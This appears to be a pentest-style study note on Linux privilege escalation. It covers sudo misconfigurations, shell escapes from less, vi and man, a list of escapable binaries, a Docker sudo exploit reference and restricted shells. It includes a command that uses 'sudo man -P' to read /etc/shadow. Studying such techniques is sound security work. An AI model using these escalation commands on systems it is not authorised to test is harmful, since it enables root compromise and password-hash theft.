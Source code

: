 ### Modify the /etc/sudoers file
```
bob ALL=(root) NOPASSWD: /bin/less /var/log/*
bob ALL=(root) NOPASSWD: /bin/less /usr/bin/man
```

- First lets examine the less program itself:
- if we take a look at its man entry, we can see that as part of its functionality, it allows a user to execute shell commands (shell escape) with the **!** Shell-Command:
- this allows users to execute commands from inside less.
- this will lead to !sh, inside any logs/* directories

> Vi/Vim editors also allows breaking out into a shell via the !sh method or executing any shell commands For that matter.

### List of common executables
```
less (!sh)
more (!sh)
VI/VIM (:!sh)
Nmap (--interactive + !sh)
ftp (!sh)
gdb
python
Perl
lrb
lua
```

### Man - Arbitrary Command Execution via Pager Argument
-P = pager
```
// we can use the -P argument, to run a command that we want.
man -P "id" man

// if the man is allowed to execute via sudo, we can see the content of the /etc/shadow
sudo man -P "cat /etc/shadow" man
```

### Docker Sudo Privilege Escalation
- docker must be installed in the victim machine
- must be defined as an entry For a user in the /etc/sudoers file
// this vuln exploits Docker by compiling shellcode For a root shell within a container, sets the SUID attribute on the resulting exploit binary, and then launches a root shell.
// moreover = https://github.com/pyperanger/dockerevil



### Restricted Shells
- chroot jail = its a way to isolate users and users processes from the rest of the operating system
- rbash shell - its a common implementation of a restricted shell
